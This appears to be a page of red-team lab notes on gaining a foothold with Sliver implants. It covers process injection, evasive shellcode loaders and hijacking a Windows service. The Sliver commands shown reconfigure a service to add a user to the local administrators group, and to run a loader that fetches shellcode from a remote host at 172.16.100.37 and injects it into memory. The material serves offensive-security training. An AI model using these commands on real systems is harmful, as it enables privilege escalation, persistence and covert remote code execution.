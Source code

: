 To establish a remote foothold via process injection, the typical approach begins with deploying a Sliver implant on a compromised host to maintain access. Once deployed, a process injection technique is used to execute shellcode within a legitimate process, allowing for stealthy execution and evasion.

This is commonly done using a custom PE loader, such as NtDropper or BinLoader for Windows or [memexec](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) for Linux, which leverage low-level Windows NtAPI calls to avoid detection. These loaders retrieve shellcode—often from a local or remote web server—and inject it directly into memory.&#x20;

The typical flow involves: loader execution → shellcode retrieval → in-memory injection using stealthy system calls.

{% tabs %}
{% tab title="Services" %}
Enumerate the target's services:

```powershell
# Enumerate services
sa-sc-enum <target>

# Enumerate services running as a specific user
ps -c -o 'dcorp\ciadmin'
```

Sliver's `remote-sc-*` command can be used to start, stop and recofingure a service (similar to `sc.exe`). It uses a COFF-Loader via [Beacon Object Files](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm), so all execution is performed within the current Silver beacon process:

{% code overflow="wrap" %}
```powershell
# Stop the service
remote-sc-stop -t 100 "" "AbyssWebServer"

# Modify the configuration (error_mode 1 → normal, start_mode 2 → auto)
remote-sc-config "" "AbyssWebServer" "c:\windows\system32\net.exe localgroup administrators dcorp\student337 /add" 1 2

# Restart the service
remote-sc-start -t 100 "" "AbyssWebServer"
```
{% endcode %}

An alternative of the above way of abusing service is to upload a Sliver session implant replacing the original one in the service configuration:

{% code overflow="wrap" %}
```powershell
# Reconfigure the service
remote-sc-config -t 100 "" "AbyssWebServer" "c:\windows\system32\cmd.exe /c start /b c:\ad\tools\sliver\binloader.exe 172.16.100.37 80 dcorp-std337_https.bin" 1 2

# Start the service
remote-sc-start -t 45 "" "AbyssWebServer"
```
{% endcode %}
